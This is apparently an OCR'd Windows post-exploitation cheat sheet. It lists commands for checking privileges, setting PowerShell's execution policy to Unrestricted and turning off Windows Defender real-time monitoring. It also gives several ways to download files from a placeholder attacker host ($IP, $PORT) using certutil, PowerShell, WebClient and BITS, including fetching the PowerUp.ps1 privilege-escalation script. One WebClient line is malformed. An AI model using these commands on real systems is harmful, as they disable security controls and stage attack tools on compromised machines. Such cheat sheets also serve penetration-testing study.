 # Command line
whoami /priv  



# Powershell
Get-ExecutionPolicy 
Set-ExecutionPolicy Unrestricted   
Set-MpPreference -DisableRealtimeMonitoring $true  


# File Transfer  
certutil.exe -urlcache -split -f "http://$IP/file.bat" file.bat   
powershell -c wget "http://$IP/file.exe" -outfile "file.exe"   

powershell "(New-Object System.Net.WebClient).DownloadFile('$IP','$PORT')"   

powershell Invoke-WebRequest -Uri http://$IP:$PORT/PowerUp.ps1 -OutFile C:\Users\out   

BITS (Background Intelligence Transfer Service)   
powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://$IP:$PORT/file.bat -Destination C:\   

